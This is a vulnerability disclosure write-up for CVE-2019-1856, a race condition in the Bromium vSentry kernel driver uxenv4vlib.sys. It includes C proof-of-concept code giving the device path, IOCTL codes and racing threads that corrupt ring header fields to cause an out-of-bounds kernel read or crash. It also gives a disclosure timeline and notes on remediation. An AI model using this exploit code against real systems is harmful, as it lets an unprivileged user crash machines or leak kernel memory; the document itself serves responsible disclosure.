






Dive into a kernel Bromium race condition
=========================================
*CVE-2019-1856 (OOB kernel memory leak or denial of service)*
--------------------------------------------------------------

*by Nicolas Delhaye, Vulnerability Researcher [@_Homeostasie_](https://x.com/_homeostasie_)*


# Context
The Bromium vSentry solution is a product deployed on end-user workstations which takes advantage of hardware virtualization features in order to isolate untrusted or exposed software.

As part of this analysis, it is possible to a non-privileged user to cause a denial of service (DoS) in the client side application of Bromium vSentry. A race condition permits an out of bound read, resulting in kernel memory leak or denial of service depending on whether a read access violation occurs.

# Vulnerability
## Description
The vulnerability is located in « uxenv4vlib.sys » version 2017.1128.23039.33944. This driver is in charge of managing the uXen V4V between the host and the guest. Of this, more later.



First of all, the story begins with the possibility to establish a communication channel with one of the Bromium drivers through the symbolic device name « \\.\v4vdev ». Of course, from standard user rights. In this way, it will be possible to craft specific IOCTLs related to the Bromium data ring management. Before going into more technical details, we need a little more explanation about the V4V technology.

**Here is an extract of the v4v technology documentation (from OpenXT github):**

*“The V4V technology is a new approach to inter-domain communications on a Xen virtualization platform. Most existing inter-domain communications frameworks use shared memory between domains and some form of event channel interrupt mechanism. V4V is a departure from this approach, instead relying on the hypervisor to broker all communications. Domains manage their own data rings and there is no sharing of actual memory. Domains communicate with one or more other domains (or themselves in the trivial case) using source and destination addresses and ports.*

*The basic construct in V4V is the v4v_ring. A domain that wants to communicate with other domains must register a v4v_ring with the V4V management code in the hypervisor.“*

```c
struct v4v_ring
 {
     uint64_t magic;
     struct v4v_ring_id id;
     uint32_t len;
     V4V_VOLATILE uint32_t rx_ptr;
     V4V_VOLATILE uint32_t tx_ptr;
     uint64_t reserved[4];
     V4V_VOLATILE uint8_t ring[0];
 };
 ```
Please see below the meanings of those fields:
* *len* is the length of the v4v ring
* *rx_ptr* is the receive pointer into the ring where the next message to be read by the domain is located
* *tx_ptr* is the transmit pointer into the ring indicating where the next received message can be written into the ring
* *ring* is the data buffer and starts at *ring[0]*

As you might guess, the vulnerability is related to the Bromium data ring management.

We will see later that it is possible to corrupt all the v4v_ring structure. Especially the *len* field, the *rx_ptr* and *tx_ptr* fields. By controlling these values, we could write or read more data than the real size of the ring buffer. Moreover, the initial size of *v4v_ring* structure can also be controlled through an IOCTL allowing the V4V initialization for a domain. Hence, due to some checks already present in the « uxenv4vlib.sys » driver, **the vulnerability cannot be triggered during a write operation but only for a read operation**. Bad luck! Actually we could have expected a buffer overflow leading to a privilege escalation.

Right now, we will analyse where the vulnerability is located and how triggered it. The latter is in *gh_v4v_process_datagram_reads* function which checks if the ring is not mapped by a user process. In this case the driver deals with the operation, otherwise a user process will be notified.

Here is a screenshot of the disassembled code highlighting the check (in green) and the ring information (in red) on access.



We can notice that there is no synchronization mechanism when the data is accessed. In fact, a race condition could occur when a thread attempts to read and another thread attempts to modify the ring data.

This scenario can be achieved because a user process can map the ring and so, can directly manipulate headers of the ring data from the user buffer. All changes are implicitly replicated to the kernel buffer. What more could you want?

<u>Here are the steps of the scenario leading to the vulnerability:</u>
1. A reading thread attempts to read data. No user process has mapped the v4v ring. So the driver should deal with the operation. Hence, before accessing the ring data, the execution thread is interrupted and a second thread is scheduled.

2. The second thread maps the ring and then attempts to corrupt data, especially fields such as “len”, “rx_ptr” and “tx_ptr” of the “v4v_ring” structure.

3. Finally, the second thread is scheduled in favour of the reading thread. This one is now using corrupted data.

As a result, we get an out of bound read, leading in kernel memory leak or denial of service depending on whether a read access violation occurs or not.

# Exploitation

An important point should be taken into account to successfully exploit this vulnerability. We must use asynchronous operations. Indeed, if threads open the device in synchronous mode, they stay blocked until data are available. Then, the race condition cannot be trigged. So, the attribute FILE_FLAG_OVERLAPPED must be set to open the device for asynchronous IO.

By now, we will see the most important code portions which are used in this exploitation.

## Opening the device
First, we have to obviously open the device on the vulnerable driver.

```c
memcpy(deviceName, "\\\\.\\v4vdev", strlen("\\\\.\\v4vdev"));
	
deviceHandle = CreateFile(deviceName,
			GENERIC_READ | GENERIC_WRITE,
			0,
			NULL,
			OPEN_EXISTING,
			FILE_FLAG_OVERLAPPED,
			NULL);
if (deviceHandle == INVALID_HANDLE_VALUE)
{
	printf("FAILED, error code: %d\n%s\n", GetLastError()); 				
	exit(1);
}
 ```

## Initialize V4V (V4V_IOCTL_INITIALIZE)
Now, we will craft the V4V_IOCTL_INITIALIZE IOCTL to initialize a V4V ring.

```c
dwIoControlCode = 0x220040;
*(HANDLE*)&InputBuffer[0x00] = hEvent;
*(DWORD*)&InputBuffer[0x04] = 0x01fc0;

if (DeviceIoControl(deviceHandle,
		dwIoControlCode,
		InputBuffer,
		8,
		OutputBuffer,
		8,
		&dwBytesReturned,
		NULL) == 0)
{
	printf("[main] DeviceIoControl driver failed");
	exit(0);
}
 ```

From the above code, the value 0x01FC0 refers to the ring buffer size in bytes. In reality, as the v4v_ring structure has a size of 0x40 bytes, the kernel will allocate 0x2000 bytes. This value was intentionally chosen in order to be aligned on one memory page.

## Bind the V4V ring with a VM (V4V_IOCTL_BIND)

The next step is to bind our V4V ring with a micro-VM ID. The following IOCTL V4V_IOCTL_BIND allows us to do this task.

```c
dwIoControlCode = 0x220044;
*(DWORD*)&InputBuffer[0x00] = dwVmId;;
*(WORD*)&InputBuffer[0x04] = 0x7FFF;
*(WORD*)&InputBuffer[0x06] = 0x7FFE;

*(DWORD*)&InputBuffer[0x08] = 0x00000000;
*(DWORD*)&InputBuffer[0x0c] = 0x00000000;
*(DWORD*)&InputBuffer[0x10] = 0x00000000;
*(DWORD*)&InputBuffer[0x14] = 0x00000000;

if (DeviceIoControl(deviceHandle,
			dwIoControlCode,
			InputBuffer,
			0x18,
			OutputBuffer,
			512,
			&dwBytesReturned,
			NULL) == 0)
{
	printf("[main] error code: %d\n\n", GetLastError());
	exit(0);
}
```

We focus in particular on the first three fields of the “InputBuffer”. The first one represents the VM ID, the two following have been retrieved by reverse engineering. In fact, this represents a “v4v_addr” structure as described below:

```c
struct v4v_ring_id
{
     struct v4v_addr addr;
     domid_t partner;
};
```
## Writing data into the ring buffer
Everything is properly configured, we could write in the device thanks to this piece of code.

```c
memset(InputBuffer, 0x41, sizeof(InputBuffer));
*(DWORD*)&InputBuffer[0x00] = dwVmId;
*(WORD*)&InputBuffer[0x04] = 0x0000;
*(WORD*)&InputBuffer[0x06] = 0x0000;

BOOLEAN bErrorFlag = WriteFile(
				deviceHandle,	// open file handle
				InputBuffer,	// start of data to write
				0x1fa0,	// number of bytes to write
				NULL,		// number of bytes that were written
				&tOverlapped);// no overlapped structure

```
As you might understand, a simple write in the device fills the ring buffer. However, a short header must be used to set the VM ID.

## Creating the “MapRing” and the “Read” threads
We are ready to start two concurrency threads in charge of respectively mapping the ring and reading the data previously written.

```c
context1.hDevice = deviceHandle;
context1.hEvent = hDumpRingEvent;
hWriteThread = CreateThread(NULL,	0, MapRingThread, &context1, CREATE_SUSPENDED, NULL);
if (hWriteThread == NULL)
{
	printf("[main] MAPRING CreateThread FAILED, error code: %d\n\n", GetLastError());
	exit(0);
}

context2.hDevice = deviceHandle;
context2.hEvent = hReadEvent;
hReadThread = CreateThread(	NULL,	0, ReadThread, &context2, CREATE_SUSPENDED, NULL);
if (hReadThread == NULL)
{
	printf("[main] READ CreateThread FAILED, error code: %d\n\n", GetLastError());
	exit(0);
}

ResumeThread(hWriteThread);
ResumeThread(hReadThread);
```

You will notice that the two threads are created in suspended mode and resume at “same” time. Thus, we assure a better chance of causing the race condition. Implementation of these threads are described below.

## MapRing thread (V4V_IOCTL_MAPRING)

The V4V ring could me mapped in userland through the V4V_IOCTL_MAPRING IOCTL.
```c
if (DeviceIoControl(deviceHandle,
		0x220068,
		InputBuffer,
		8,
		OutputBuffer,
		512,
		&dwBytesReturned,
		NULL) == 0)
{
	printf("[MapRingThread] DeviceIoControl driver failed");
	exit(0);
}

v4v_ring_header *ptV4vRingHeader;
ptV4vRingHeader = (v4v_ring_header*)(*(ULONG64*)(OutputBuffer));
ptV4vRingHeader->len = 0xffffffff;
ptV4vRingHeader->rx_ptr = 0xeeeeeeee;
ptV4vRingHeader->tx_ptr = 0xffffffff;

SetEvent(pContext->hEvent);
```
Once we have retrieved a user address on the ring, we will overwrite data before the read operation occurs. In this case, the values of “len”, “rx_ptr” and “tx_ptr” fields are set to cause a nice BSOD.

## Read thread (V4V_IOCTL_MAPRING)
Right now, through a read operation, the race condition could be triggered. Timing is everything!
```c
bErrorFlag = ReadFile(
		deviceHandle,        // open file handle
		InputBuffer,		// start of data to write
		0x10,			// number of bytes to read
		NULL,			// number of bytes that were written
		&tOverlapped);       // no overlapped structure

SetEvent(pContext->hEvent);
```

## Repeat, repeat and so on (V4V_IOCTL_MAPRING)
Finally, loop infinitely with this scenario by incrementing the VM ID. After a few moments, we should get a BSOD or an out of bound memory read depending on the values crafted in the mapped ring.

# Demonstration
This demonstration has been tested on Windows 7 x64 Home Basic and Enterprise.



I have noticed that the hardware configuration, especially the amount of CPUs, can affect the success of this exploitation. On large hardware configuration, we have to launch several instances of the POC to trig the vulnerability. Well, this is not a problem!

As soon as the vulnerability is triggered, we could get the following BSOD:



For in-depth analysis, more accurate information can be obtained through a Windows debugger. 



Finally, the stack trace shows the execution path to reach the vulnerability.



# Conclusion
In conclusion, as this bug is a race condition, it has been quite difficult to find it. But it is always fun to discover this type of vulnerability. Finally, we are dealing with a design mistake because the developer omits to protect data from concurrency access. Another remediation could be to hide access on the ring header from the user and so, prevent the alteration of critical fields. Nevertheless, this vulnerability is not exploitable for a privilege escalation but could help to reach this effect thanks to the memory leak.

# Disclosure Timeline
July 9th, 2019: Vulnerability Reported

July 23th, 2019: Initial response from Bromium:
-	Issue is confirmed and root cause is identified
-	Patch is scheduled for end August
-	Airbus is invited to test the forthcoming release

Oct 09th, 2019: Airbus did not receive any versions to retest 
-	Airbus asks to Bromium a status

Nov 04th, 2019: Bromium did not provide any further information on the subject
-	CVE process is initiated

Feb 4th, 2020: Airbus publishes the report associated with the CVE 
